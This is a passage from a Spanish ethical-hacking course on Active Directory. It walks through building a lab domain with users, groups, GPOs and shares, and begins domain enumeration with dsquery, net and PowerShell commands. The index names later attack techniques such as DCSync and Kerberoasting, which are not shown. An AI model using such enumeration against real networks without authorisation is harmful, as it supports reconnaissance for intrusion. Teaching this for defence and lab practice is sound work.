


| **Inicio**         | **atrás 1**                                         | **Siguiente 3**                                              |
| ------------------ | --------------------------------------------------- | ------------------------------------------------------------ |
| [🏠](../README.md) | [⏪](./5_1_Recopilacion_avanzada_de_informacion.md) | [⏩](./5_3_Acceso_a_credenciales_y_movimientos_laterales.md) |

---

## **Índice**

| Temario                                                                                                           |
| ----------------------------------------------------------------------------------------------------------------- |
| [283. Introducción a Active Directory](#283-introducción-a-active-directory)                                      |
| [284. Instalación y configuración del DC](#284-instalación-y-configuración-del-dc)                                |
| [285. Instalación de máquinas Windows 10 en el dominio](#285-instalación-de-máquinas-windows-10-en-el-dominio)    |
| [286. Características de AD: Usuarios, Grupos y OUs](#286-características-de-ad-usuarios-grupos-y-ous)            |
| [287. Características de AD: GPOs y recursos compartidos](#287-características-de-ad-gpos-y-recursos-compartidos) |
| [288. Recopilación de información en Active Directory](#288-recopilación-de-información-en-active-directory)      |
| [289. PowerView](#289-powerview)                                                                                  |
| [290. Enumeración local de SAM](#290-enumeración-local-de-sam)                                                    |
| [291. Enumeración remota de SAM](#291-enumeración-remota-de-sam)                                                  |
| [292. Impacket y Rpcclient](#292-impacket-y-rpcclient)                                                            |
| [293. AD Module](#293-ad-module)                                                                                  |
| [294. Enumeración de NTDS](#294-enumeración-de-ntds)                                                              |
| [295. Ldapsearch, pywerview y jxplorer](#295-ldapsearch-pywerview-y-jxplorer)                                     |
| [296. BloodHound](#296-bloodhound)                                                                                |
| [297. Descriptores de seguridad y ACLs](#297-descriptores-de-seguridad-y-acls)                                    |
| [298. Vulnerable AD](#298-vulnerable-ad)                                                                          |
| [299. Identificación de ACLs vulnerables](#299-identificación-de-acls-vulnerables)                                |
| [300. Listado de ACEs vulnerables](#300-listado-de-aces-vulnerables)                                              |
| [301. Explotación de ACLs vulnerables](#301-explotación-de-acls-vulnerables)                                      |
| [302. Explotación DCSync](#302-explotación-dcsync)                                                                |
| [303. Password Spraying](#303-password-spraying)                                                                  |
| [304. Funcionamiento de Kerberos](#304-funcionamiento-de-kerberos)                                                |
| [305. Kerberos en Active Directory](#305-kerberos-en-active-directory)                                            |
| [306. Enumeración de usuarios con Kerberos](#306-enumeración-de-usuarios-con-kerberos)                            |
| [307. Fuerza bruta con Kerberos](#307-fuerza-bruta-con-kerberos)                                                  |
| [308. AS-REQ Roasting](#308-as-req-roasting)                                                                      |
| [309. Instalación Rubeus](#309-instalación-rubeus)                                                                |
| [310. AS-REP Roasting](#310-as-rep-roasting)                                                                      |
| [311. TGS-REP Roasting (Kerberoasting)](#311-tgs-rep-roasting-kerberoasting)                                      |

---

# **Hacking Etico en Entornos Active Directory**

## **283. Introducción a Active Directory**



### 🧠 ¿Qué es Active Directory (AD)?

**Active Directory** es una tecnología de Microsoft que permite **gestionar y organizar los recursos de una red** (usuarios, computadoras, impresoras, permisos, etc.). Es como una **agenda central de toda tu red**, donde puedes controlar **quién accede a qué**, **qué puede hacer cada usuario** y **administrar todo desde un solo lugar**.

#### 📘 ¿Para qué sirve?

- Controlar **usuarios** y **contraseñas**
- Permitir el **inicio de sesión** en computadoras conectadas a la red
- Asignar **permisos y políticas** de seguridad (como impedir que usen USB)
- Organizar los recursos en **unidades organizativas (OU)**
- Integrar servicios como **correo electrónico (Exchange)** o **bases de datos (SQL Server)**

---

### 🏠 Ejemplo fácil de entender

Imagina una **escuela**:

- Los alumnos, profesores y administrativos usan computadoras.
- El director quiere que los profesores **puedan imprimir**, pero los alumnos **no**.
- Los alumnos **solo pueden usar internet en ciertas horas**.

Con Active Directory puedes:

✅ Crear grupos: **"Profesores", "Alumnos", "Administrativos"**

✅ Asignar políticas: **"Profesores pueden imprimir", "Alumnos sin acceso a USB"**

✅ Manejar accesos: **"Solo administrativos acceden a notas"**

---

### 🧰 ¿Qué necesito para instalar Active Directory?

Necesitas una **máquina con Windows Server** (por ejemplo, Windows Server 2022) para convertirla en un **controlador de dominio (Domain Controller)**.

#### Requisitos:

- Windows Server instalado (puede ser en una máquina física o virtual)
- Nombre fijo para el servidor (ej. `SERVIDOR-AD`)
- IP fija (ej. `192.168.1.10`)
- Roles y características: **Active Directory Domain Services (AD DS)**

---

### 🔧 PASO A PASO: Instalar Active Directory

#### 💻 PASO 1: Instala Windows Server

Puedes usar una máquina virtual con [VirtualBox](https://www.virtualbox.org/) o [VMware](https://www.vmware.com/).

Instala Windows Server 2019 o 2022.

---

#### ⚙️ PASO 2: Asignar nombre y IP estática

- Cambia el nombre del equipo a `SERVIDOR-AD`
- Asigna IP fija: ejemplo `192.168.1.10` con puerta de enlace `192.168.1.1`

---

#### 🛠️ PASO 3: Instalar el rol de Active Directory

1. Abre el **Administrador del servidor** (Server Manager)
2. Haz clic en **"Agregar roles y características"**
3. Marca:

   - **Servicios de dominio de Active Directory**
   - Se agregan dependencias como **DNS** automáticamente

4. Avanza hasta **instalar**

---

#### 🏗️ PASO 4: Promover el servidor a controlador de dominio

Después de instalar, verás una advertencia **"Promover este servidor a controlador de dominio"**

1. Elige: **"Agregar un nuevo bosque"**
2. Nombre del dominio: `midominio.local`
3. Establece una contraseña de modo de restauración (DSRM)
4. Espera que termine y el servidor se reiniciará

---

### 📁 Estructura de ejemplo

Una vez instalado, puedes abrir la herramienta **"Usuarios y equipos de Active Directory"** (`dsa.msc`).

Verás:

- midominio.local

  - **Usuarios**
  - **Computadoras**
  - **Unidades Organizativas (OU)**

Puedes crear:

- OU: "Profesores", "Alumnos", "TI"
- Usuarios: "Juan Pérez", "Maria León"
- Grupos: "AccesoImpresora", "SinInternet"

---

### ✅ EJEMPLO COMPLETO

#### 🎯 Objetivo:

Crear un dominio llamado `escuela.local`, agregar dos usuarios (uno alumno y uno profesor), y asignar permisos.

#### 1. Crear OU

Abre `dsa.msc` y crea 2 OU:

- "Alumnos"
- "Profesores"

---

#### 2. Crear usuarios

En la OU "Alumnos":

- Usuario: `luis.mendoza`
  Nombre completo: Luis Mendoza
  Contraseña: `Alumno123*`

En la OU "Profesores":

- Usuario: `ana.lopez`
  Nombre completo: Ana López
  Contraseña: `Profesor123*`

---

#### 3. Crear grupo y asignar permisos

Crea grupo: `AccesoImpresora`

- Agrega a `ana.lopez` como miembro
- Aplica una **Política de Grupo (GPO)** para permitir impresión solo a miembros de ese grupo.

---

#### 4. Unir computadoras al dominio

Desde una computadora con Windows:

1. Haz clic derecho en **"Este equipo" > Propiedades**
2. Cambia a dominio: `escuela.local`
3. Inicia sesión con `ana.lopez` o `luis.mendoza`

¡Listo! Dependiendo de su perfil, tendrán diferentes permisos.

---

### 🧪 ¿Dónde puedes practicar?

Puedes montar todo esto en tu PC con:

- 💿 **Windows Server** en máquina virtual
- 🖥️ Otra VM con **Windows 10 o 11**
- 🛜 Conectarlas a una red interna (virtual NAT o red puente)

---

[🔼](#índice)

---

## **284. Instalación y configuración del DC**

### 🧠 ¿Qué es un Controlador de Dominio (Domain Controller - DC)?

Un **Controlador de Dominio (DC)** es un servidor que **administra la seguridad y los accesos dentro de una red con Active Directory**.

👉 Es el **cerebro** de la red:

- Controla **quién puede iniciar sesión**
- Aplica **políticas de seguridad**
- Administra **usuarios, grupos, equipos y recursos**

---

### 📌 Ejemplo fácil:

Imagina que estás en una **oficina con 20 computadoras**. Sin DC, tendrías que crear 20 usuarios en cada PC.

🔁 Con un DC:

- Solo creas el usuario una vez, en el servidor
- Desde cualquier PC unida al dominio, el usuario puede iniciar sesión
- Puedes aplicar políticas como: “bloquear USB” o “cambiar contraseña cada 30 días”

---

### 🧰 Requisitos para instalar un DC

| Requisito                      | Descripción                                   |
| ------------------------------ | --------------------------------------------- |
| 💽 Windows Server              | Puede ser 2016, 2019, 2022                    |
| 💻 Máquina física o virtual    | Ideal usar VirtualBox o VMware para practicar |
| 🌐 IP estática                 | Ej. `192.168.1.10`                            |
| 🧾 Nombre de host definido     | Ej. `DC1`                                     |
| 🌐 Red común con las demás PCs | Para que puedan unirse al dominio             |

---

### 🛠️ PASO A PASO: Instalación y Configuración del DC

Te explico en detalle cada parte.

---

#### 🔹 PASO 1: Configurar el servidor

##### Cambiar nombre del servidor

- Abre **Administrador del servidor**
- Ir a **Configuración del sistema > Cambiar nombre del equipo**
- Pon: `DC1`

##### Asignar IP fija

- Ir a **Conexiones de red > Propiedades del adaptador**
- Asigna:

  - IP: `192.168.1.10`
  - Máscara: `255.255.255.0`
  - Gateway: `192.168.1.1`
  - DNS preferido: `192.168.1.10` (tu mismo servidor)

---

#### 🔹 PASO 2: Instalar el rol “Active Directory Domain Services”

1. Abre **Administrador del servidor**
2. Clic en **Agregar roles y características**
3. Avanza hasta **"Roles del servidor"**
4. Marca **Active Directory Domain Services**
5. Te pedirá agregar componentes adicionales, acéptalo
6. Sigue hasta el final y haz clic en **Instalar**

---

#### 🔹 PASO 3: Promover a controlador de dominio

Una vez terminado el paso anterior, aparecerá un aviso arriba a la derecha que dice **“Promover este servidor a controlador de dominio”**.

Haz clic y sigue estos pasos:

##### Crear nuevo bosque

- Marca: **Agregar un nuevo bosque**
- Nombre del dominio raíz: `empresa.local` (puede ser lo que desees)

##### Opciones del controlador de dominio

- Nivel funcional: **Windows Server 2016/2019/2022**
- Deja marcado:

  - Controlador de dominio
  - Servidor DNS
  - Catálogo global

- Establece una contraseña para modo de recuperación (DSRM)

##### Siguiente hasta finalizar

- Se reiniciará automáticamente

---

#### ✅ PASO 4: Confirmar que el DC está funcionando

Después del reinicio, tu servidor es un **Controlador de Dominio**. Puedes verificarlo así:

1. Abre **Usuarios y equipos de Active Directory** (`dsa.msc`)
2. Verás el dominio `empresa.local`
3. Dentro puedes crear:

   - 🧍 Usuarios
   - 💼 Grupos
   - 🖥️ Computadoras
   - 📁 Unidades organizativas (OU)

---

### 🎯 EJEMPLO COMPLETO Y PRÁCTICO

Vamos a montar un dominio llamado `escuela.local` y crear usuarios y computadoras.

---

#### 💡 Escenario:

- Dominio: `escuela.local`
- IP del DC: `192.168.1.10`
- Nombre del DC: `DC1`
- Usuario alumno: `luis.mendoza`
- Usuario profesor: `ana.lopez`

---

#### PASO A: Crear OU y Usuarios

1. Abre `dsa.msc`

2. Crea 2 OU:

   - `Alumnos`
   - `Profesores`

3. Dentro de "Alumnos", clic derecho > Nuevo usuario:

   - Nombre: Luis Mendoza
   - Usuario: `luis.mendoza`
   - Contraseña: `Alumno123*`

4. Dentro de "Profesores", nuevo usuario:

   - Nombre: Ana López
   - Usuario: `ana.lopez`
   - Contraseña: `Profesor123*`

---

#### PASO B: Configurar políticas (opcional)

1. Abre `gpmc.msc` (Administrador de directivas de grupo)

2. Crea una nueva GPO: "Bloqueo USB alumnos"

3. En Configuración de usuario > Plantillas administrativas > Sistema > Acceso de almacenamiento extraíble

   - Denegar acceso a todas las unidades

4. Aplica esta GPO a la OU "Alumnos"

---

#### PASO C: Unir una PC al dominio

Desde una PC cliente con Windows 10/11:

1. Asigna IP dentro del mismo rango (ej. `192.168.1.20`)
2. Establece como DNS preferido al DC: `192.168.1.10`
3. Haz clic derecho en **Este equipo > Propiedades > Cambiar configuración**
4. Cambiar de grupo de trabajo a dominio: `escuela.local`
5. Ingresa credenciales de un usuario del dominio (ej. `administrador` del DC)

Reinicia, ¡y listo! La PC está en el dominio.

---

#### PASO D: Iniciar sesión desde una PC cliente

En la PC cliente:

- En pantalla de inicio de sesión, haz clic en **"Otros usuarios"**
- Escribe:

  - Usuario: `escuela\ana.lopez`
  - Contraseña: `Profesor123*`

Verás que inicia sesión y se aplican políticas automáticamente.

---

### 🧪 ¿Dónde practicar?

Puedes usar:

- 💻 [VirtualBox](https://www.virtualbox.org/)
- ISOs de prueba de [Windows Server](https://www.microsoft.com/en-us/evalcenter/)
- 1 VM para el servidor DC, otra VM como cliente con Windows 10/11

---

[🔼](#índice)

---

## **285. Instalación de máquinas Windows 10 en el dominio**

### 🧠 ¿Qué significa unir una PC al dominio?

Cuando una **máquina con Windows 10** se une a un dominio, pasa a ser parte de una red controlada por **Active Directory**. Esto permite:

- Que usuarios del dominio inicien sesión desde esa PC.
- Aplicar **políticas de grupo** (GPO).
- Acceso a recursos compartidos (impresoras, carpetas, etc.).
- Administración centralizada.

---

### 🎓 Ejemplo fácil de entender

Imagina una escuela con 10 computadoras y un servidor central.
Con Active Directory y las PCs en el dominio:

- El usuario "ana.lopez" puede iniciar sesión desde cualquier computadora de la escuela.
- Se puede aplicar una política para bloquear el uso de USB solo a los estudiantes.
- Las impresoras solo se muestran a profesores.

---

### ✅ Requisitos para unir una máquina con Windows 10 al dominio

| Requisito                             | Ejemplo                                     |
| ------------------------------------- | ------------------------------------------- |
| 💽 Windows 10 Pro, Edu o Enterprise   | No funciona en Windows 10 Home              |
| 🌐 IP en la misma red                 | Ej. 192.168.1.20 (si el DC es 192.168.1.10) |
| 📛 Nombre del dominio                 | Ej. `escuela.local`                         |
| 📡 DNS apuntando al DC                | DNS debe ser la IP del servidor             |
| 👤 Usuario con permisos en el dominio | Por ejemplo, el `Administrador` del DC      |

---

### 🛠️ PASO A PASO: Instalar y unir Windows 10 al dominio

---

#### 🔹 PASO 1: Instalar Windows 10 en una máquina física o virtual

1. Puedes usar una ISO de Windows 10 desde [el sitio oficial](https://www.microsoft.com/es-es/software-download/windows10).
2. Instala Windows 10 como normalmente lo harías.
3. Asegúrate de elegir **Windows 10 Pro** o superior.

---

#### 🔹 PASO 2: Configurar red e IP

1. Abre **Configuración de red > Cambiar adaptador > Propiedades**.
2. En IPv4, configura:

| Campo             | Valor Ejemplo              |
| ----------------- | -------------------------- |
| Dirección IP      | `192.168.1.20`             |
| Máscara de subred | `255.255.255.0`            |
| Puerta de enlace  | `192.168.1.1`              |
| DNS preferido     | `192.168.1.10` (IP del DC) |

💡 _Es importante que el DNS apunte al **Controlador de Dominio** para que funcione la unión._

---

#### 🔹 PASO 3: Cambiar el nombre del equipo

1. Haz clic derecho en **Este equipo > Propiedades > Cambiar configuración del sistema**.
2. Cambia el nombre de la PC (por ejemplo: `PC-ALUMNO01`).
3. Reinicia el equipo si te lo solicita.

---

#### 🔹 PASO 4: Unir al dominio

1. Vuelve a **Este equipo > Propiedades > Cambiar configuración > Cambiar (botón)**.

2. Selecciona: **Dominio**

3. Escribe el nombre del dominio (por ejemplo):
   `escuela.local`

4. Te pedirá credenciales de un usuario con permisos, usa:

   - Usuario: `administrador`
   - Contraseña: (la del servidor)

5. Verás un mensaje: **"Bienvenido al dominio escuela.local"**

6. Reinicia la PC.

---

#### 🔹 PASO 5: Probar inicio de sesión

1. En la pantalla de inicio de sesión, haz clic en **"Otros usuarios"**.

2. Escribe:

   - Usuario: `escuela\ana.lopez`
   - Contraseña: (la que definiste en el servidor)

3. Si todo va bien, Windows iniciará sesión como usuario del dominio.

---

### 🧪 Ejemplo completo

#### 🖥️ Infraestructura:

| Elemento             | Valor                              |
| -------------------- | ---------------------------------- |
| Dominio              | `escuela.local`                    |
| Servidor DC          | `DC1` - IP: `192.168.1.10`         |
| PC Alumno            | `PC-ALUMNO01` - IP: `192.168.1.20` |
| Usuario creado en AD | `luis.mendoza` (Alumno)            |

---

#### 🔧 Configuración paso a paso en el cliente:

1. Instalas Windows 10 Pro en una máquina virtual
2. Asignas:

   - IP: `192.168.1.20`
   - DNS: `192.168.1.10` (DC)

3. Cambias el nombre de la PC a `PC-ALUMNO01`
4. Unes al dominio: `escuela.local`
5. Inicias sesión con el usuario del dominio: `escuela\luis.mendoza`

---

### ❗ Posibles errores comunes y cómo solucionarlos

| Error                                    | Solución                                                                  |
| ---------------------------------------- | ------------------------------------------------------------------------- |
| ❌ No se puede contactar al dominio      | Revisa que el **DNS sea el DC** y que tenga **respuesta a ping**          |
| ❌ El nombre del dominio no se encuentra | Verifica que el DC esté encendido y accesible                             |
| ❌ No puedes iniciar sesión              | Asegúrate de escribir el **prefijo del dominio**: `escuela\nombreusuario` |

---

### 🧰 ¿Dónde practicar?

Puedes hacerlo en **VirtualBox** creando 2 VMs:

1. 🧠 VM1: **Windows Server 2022** → instala Active Directory → IP: `192.168.1.10`
2. 💻 VM2: **Windows 10 Pro** → configurar red e IP → IP: `192.168.1.20`
3. Conéctalas a una red interna o adaptador puente

---

[🔼](#índice)

---

## **286. Características de AD: Usuarios, Grupos y OUs**

### 🧠 ¿Qué son y para qué sirven?

#### 🧍‍♂️ USUARIOS

Un **usuario en Active Directory** representa a una persona que necesita autenticarse (iniciar sesión) en una red. Tiene:

- Nombre de usuario y contraseña
- Permisos y políticas asignadas
- Acceso a recursos (impresoras, carpetas, apps, etc.)

📌 _Ejemplo:_

Usuario: `luis.mendoza`
Nombre completo: Luis Mendoza
Pertenece al grupo: "Alumnos"

---

#### 👥 GRUPOS

Los **grupos** sirven para **organizar usuarios y asignarles permisos de forma colectiva**.

Tipos de grupos en AD:

| Tipo de grupo              | ¿Para qué sirve?                                |
| -------------------------- | ----------------------------------------------- |
| **Grupos de seguridad**    | Controlar acceso a recursos y aplicar políticas |
| **Grupos de distribución** | Solo para correos electrónicos (en Exchange)    |

📌 _Ejemplo:_

Grupo: `Profesores`
Miembros: `ana.lopez`, `juan.ramos`
Permisos: Acceso a carpeta `\\servidor\notas`

---

#### 🗂️ UNIDADES ORGANIZATIVAS (OU)

Las **Unidades Organizativas (OUs)** son **contenedores lógicos** donde puedes agrupar objetos como usuarios, grupos y computadoras.

¿Por qué usarlas?

- Para **organizar mejor tu dominio**
- Para **aplicar GPOs (políticas de grupo)** por área o departamento
- Para delegar administración (ej. que un jefe de área administre su OU)

📌 _Ejemplo:_

OU: `Alumnos`
Contiene: `luis.mendoza`, `carla.garcia`, `PC-ALUMNO01`
GPO aplicada: Bloquear acceso a panel de control

---

### 🛠️ ¿Cómo se crean? (Instalación y uso)

Se hacen desde la consola **"Usuarios y equipos de Active Directory"** (`dsa.msc`), que ya viene instalada si tu servidor es un Controlador de Dominio.

---

#### ✅ Crear un usuario

1. Abre `dsa.msc`
2. Haz clic derecho sobre una OU (por ejemplo, `Alumnos`) > **Nuevo > Usuario**
3. Rellena:

   - Nombre: Luis Mendoza
   - Nombre de inicio de sesión: `luis.mendoza`
   - Contraseña: `Alumno123*`
   - Marca “el usuario debe cambiar la contraseña al iniciar sesión” (opcional)

---

#### ✅ Crear un grupo

1. Haz clic derecho sobre una OU (por ejemplo, `Profesores`) > **Nuevo > Grupo**
2. Nombre del grupo: `AccesoImpresoras`
3. Tipo de grupo: **Seguridad**
4. Ámbito: **Global**

Luego, para agregar usuarios al grupo:

- Haz clic derecho en el grupo > **Propiedades > Miembros > Agregar**
- Escribe `ana.lopez`, `juan.ramos`, etc.

---

#### ✅ Crear una Unidad Organizativa (OU)

1. Haz clic derecho sobre el nombre del dominio (ej. `escuela.local`) > **Nuevo > Unidad Organizativa**
2. Nombre: `Alumnos`, `Profesores`, `TI`, etc.
3. Marca **"Proteger contenedor contra eliminación accidental"** (recomendado)

Luego puedes **mover usuarios y PCs** a su respectiva OU con solo arrastrarlos.

---

### 🎯 EJEMPLO COMPLETO

#### 🎓 Escenario:

Vamos a simular una red educativa con:

- Dominio: `escuela.local`
- 2 OUs: `Alumnos` y `Profesores`
- Usuarios:

  - `luis.mendoza` (Alumno)
  - `ana.lopez` (Profesora)

- Grupo:

  - `AccesoNotas` (solo para profesores)

- Política aplicada a la OU `Alumnos`: bloquear acceso a panel de control

---

#### 🔧 Paso 1: Crear OUs

1. Abre `dsa.msc`
2. Clic derecho en `escuela.local` > **Nuevo > Unidad Organizativa**

   - OU: `Alumnos`
   - OU: `Profesores`

---

#### 🔧 Paso 2: Crear usuarios

1. En `OU: Alumnos` > clic derecho > **Nuevo > Usuario**

   - Usuario: `luis.mendoza`
   - Contraseña: `Alumno123*`

2. En `OU: Profesores` > **Nuevo > Usuario**

   - Usuario: `ana.lopez`
   - Contraseña: `Profesor123*`

---

#### 🔧 Paso 3: Crear grupo y asignar usuarios

1. En `OU: Profesores` > clic derecho > **Nuevo > Grupo**

   - Nombre: `AccesoNotas`
   - Tipo: Seguridad
   - Ámbito: Global

2. Haz clic en el grupo > **Propiedades > Miembros > Agregar**

   - Agrega: `ana.lopez`

---

#### 🔧 Paso 4: Aplicar una GPO (política) a la OU “Alumnos”

1. Abre `gpmc.msc` (Administrador de directivas de grupo)

2. Clic derecho sobre `OU: Alumnos` > **Crear una GPO en este dominio y vincularla aquí**

   - Nombre: `Bloqueo Panel de Control`

3. Edita la GPO:

   - Usuario > Plantillas administrativas > Panel de control
   - **Prohibir el acceso a la configuración del panel de control y PC**: Activado

---

### ✅ Resultado:

| Elemento          | Descripción                                  |
| ----------------- | -------------------------------------------- |
| `luis.mendoza`    | Alumno, bloqueado el panel de control        |
| `ana.lopez`       | Profesora, miembro del grupo `AccesoNotas`   |
| `Alumnos` (OU)    | Tiene GPO aplicada para limitar funciones    |
| `Profesores` (OU) | Organización separada para aplicar otras GPO |

---

### 🧪 ¿Dónde practicar esto?

Puedes montar un laboratorio con:

- 1 VM con **Windows Server 2022**
- 1 o 2 VMs con **Windows 10 Pro**
- Ambas conectadas en red interna (VirtualBox o VMware)
- Configura Active Directory y sigue todos estos pasos

---

[🔼](#índice)

---

## **287. Características de AD: GPOs y recursos compartidos**

### 🧠 ¿Qué son las GPOs y los recursos compartidos?

---

#### 🔹 ¿Qué es una GPO?

Una **GPO (Group Policy Object)** es un conjunto de **reglas y configuraciones** que se aplican automáticamente a los usuarios o computadoras de un dominio en Active Directory.

Sirve para **controlar y estandarizar el comportamiento de los equipos y usuarios**, como:

- Bloquear el acceso al panel de control
- Establecer fondos de pantalla
- Restringir el uso de USB
- Configurar el escritorio
- Redirigir carpetas

📌 **Ejemplo fácil:**

Si aplicas una GPO a la OU “Alumnos” que **bloquea el acceso al Panel de control**, todos los alumnos que inicien sesión desde cualquier PC del dominio **no podrán abrirlo**.

---

#### 🔸 ¿Qué son los recursos compartidos?

Los **recursos compartidos** son archivos, carpetas, impresoras o unidades de red que pueden ser **accedidos por varios usuarios dentro del dominio**, según los permisos que tú definas.

📌 **Ejemplo fácil:**

Una carpeta `\\servidor\notas` está compartida solo para los profesores. Los alumnos no pueden entrar. Controlas el acceso usando **grupos de AD** o permisos NTFS.

---

### 🛠️ ¿Cómo se crean y configuran?

---

#### ✅ Parte 1: Crear y aplicar una GPO

##### 🧰 Herramienta: **Administrador de directivas de grupo**

Comando: `gpmc.msc`

#### 📌 PASO A: Crear una GPO

1. Abre `gpmc.msc` desde el servidor
2. Haz clic derecho en la OU deseada (ej. `Alumnos`) > **Crear una GPO y vincularla aquí**
3. Ponle nombre, por ejemplo: `BloquearPanelControl`

---

#### 📌 PASO B: Editar la GPO

1. Haz clic derecho en la GPO > **Editar**
2. Se abre el Editor de políticas de grupo

Ejemplo: **Bloquear Panel de control**

- Ruta:

  `Configuración de usuario > Plantillas administrativas > Panel de control`

- Política: **Prohibir el acceso a la configuración del panel de control y la PC**
- Estado: **Habilitado**

---

#### 📌 PASO C: Aplicación y prueba

1. Asegúrate de que la GPO esté vinculada a la OU correcta.
2. En la PC cliente, puedes actualizar la política con:

   ```
   gpupdate /force
   ```

3. Cierra sesión e inicia con un usuario de la OU (por ejemplo, `luis.mendoza`) y comprueba que no pueda abrir el panel de control.

---

#### ✅ Parte 2: Crear un recurso compartido

---

##### 📂 PASO A: Crear una carpeta para compartir

1. En el servidor (o cualquier PC), crea una carpeta:
   `C:\Recursos\Notas`
2. Haz clic derecho sobre ella > **Propiedades > Compartir > Uso compartido avanzado**
3. Marca **"Compartir esta carpeta"**

   - Nombre: `notas`
   - Ruta de red: `\\DC1\notas` (DC1 es el nombre del servidor)

---

##### 🔐 PASO B: Asignar permisos de acceso

1. Clic en **Permisos**
2. Quita “Todos” si no quieres que cualquiera acceda
3. Agrega grupos de AD (ej: `Profesores`) o usuarios específicos
4. Establece permisos:

   - **Lectura** si solo pueden ver
   - **Cambio** si pueden modificar o eliminar archivos

🔸 También puedes reforzar esto con **permisos NTFS** en la pestaña **Seguridad**.

---

##### 💻 PASO C: Acceder desde una PC cliente

Desde una máquina unida al dominio:

1. Inicia sesión como usuario del dominio (ej. `ana.lopez`)
2. Presiona `Windows + R` y escribe:

   ```
   \\DC1\notas
   ```

3. Si el usuario tiene permisos, podrá acceder a la carpeta.

---

### 🎯 EJEMPLO COMPLETO: GPO + recurso compartido

---

#### 🎓 Escenario:

- Dominio: `escuela.local`
- Usuarios:

  - `ana.lopez` (Profesora)
  - `luis.mendoza` (Alumno)

- OUs:

  - `Profesores`
  - `Alumnos`

- Recurso: Carpeta `notas` compartida solo para profesores
- GPO: Bloquear acceso al panel de control para alumnos

---

#### 🔧 Paso 1: Crear carpeta compartida

En el servidor:

1. Carpeta: `C:\Recursos\Notas`
2. Compartir como: `notas`
3. Permisos:

   - Agregar grupo `Profesores`
   - Permisos: **Lectura y escritura**
   - Quitar “Todos” para mayor seguridad

---

#### 🔧 Paso 2: Crear grupo y asignar usuario

1. En OU `Profesores` > Crear grupo: `AccesoNotas`
2. Agregar a `ana.lopez` como miembro

---

#### 🔧 Paso 3: Aplicar GPO a OU Alumnos

1. Abre `gpmc.msc`
2. En `OU: Alumnos` > Crear GPO: `BloquearPanelControl`
3. Editar:

   - Ruta: Configuración de usuario > Plantillas administrativas > Panel de control
   - Política: **Prohibir el acceso...**
   - Estado: **Habilitado**

---

#### 🔧 Paso 4: Probar desde clientes

Desde una PC unida al dominio:

- Iniciar sesión como `ana.lopez`

  - Acceder a `\\DC1\notas`: debería funcionar

- Iniciar sesión como `luis.mendoza`

  - Intentar abrir panel de control: debería estar bloqueado

---

### ✅ Resultado esperado:

| Usuario        | Recurso compartido     | GPO aplicada               |
| -------------- | ---------------------- | -------------------------- |
| `ana.lopez`    | Accede a `\\DC1\notas` | No tiene bloqueo           |
| `luis.mendoza` | No accede a `notas`    | Panel de control bloqueado |

---

### 🧪 ¿Dónde practicar?

Puedes montar todo esto en **VirtualBox** o **VMware** con:

1. 🧠 1 VM: **Windows Server 2022** (Controlador de dominio)
2. 💻 1 o 2 VMs: **Windows 10 Pro**
3. Red interna
4. Sigue paso a paso esta guía

---

[🔼](#índice)

---

## **288. Recopilación de información en Active Directory**

### 🧠 ¿Qué es la recopilación de información en Active Directory?

Recopilar información en AD significa **obtener detalles sobre los objetos del dominio**, como:

- Usuarios
- Grupos
- Equipos
- OUs (Unidades organizativas)
- Miembros de un grupo
- Último inicio de sesión
- Políticas aplicadas

Esto es muy útil para:

- Auditar seguridad
- Detectar usuarios inactivos
- Obtener inventarios de computadoras
- Ver jerarquías y estructuras
- Preparar migraciones

---

### 🛠️ ¿Cómo se recopila la información?

Existen varias formas de hacerlo:

#### 🔹 1. Desde la interfaz gráfica (GUI)

Herramientas:

- **Usuarios y Equipos de Active Directory** (`dsa.msc`)
- **Centro de administración de Active Directory** (`dsac.msc`)
- **Administrador de directivas de grupo** (`gpmc.msc`)

👁‍🗨 Permiten:

- Ver propiedades de usuarios (clic derecho > Propiedades)
- Explorar OUs y grupos
- Ver membresías

📌 **Ejemplo:**

Quieres saber qué usuarios pertenecen al grupo `AccesoNotas`.
➡ Vas a `dsa.msc` → Grupos → `AccesoNotas` → Propiedades → pestaña **Miembros**.

---

#### 🔹 2. Desde la línea de comandos (CMD)

Comando: `dsquery`, `net user`, `net group`

Ejemplos:

##### ✅ Ver todos los usuarios del dominio

```cmd
dsquery user -limit 0
```

##### ✅ Ver miembros de un grupo

```cmd
net group AccesoNotas /domain
```

##### ✅ Ver información de un usuario

```cmd
net user luis.mendoza /domain
```

---

#### 🔹 3. Con PowerShell

PowerShell es el método **más potente y moderno** para obtener información del dominio.

Primero asegúrate de tener instalado el módulo de Active Directory:

```powershell
Import-Module ActiveDirectory
```

##### ✅ Listar todos los usuarios

```powershell
Get-ADUser -Filter * | Select Name, SamAccountName
```

##### ✅ Obtener un usuario específico

```powershell
Get-ADUser -Identity luis.mendoza -Properties *
```

##### ✅ Ver todos los grupos

```powershell
Get-ADGroup -Filter * | Select Name
```

##### ✅ Ver miembros de un grupo

```powershell
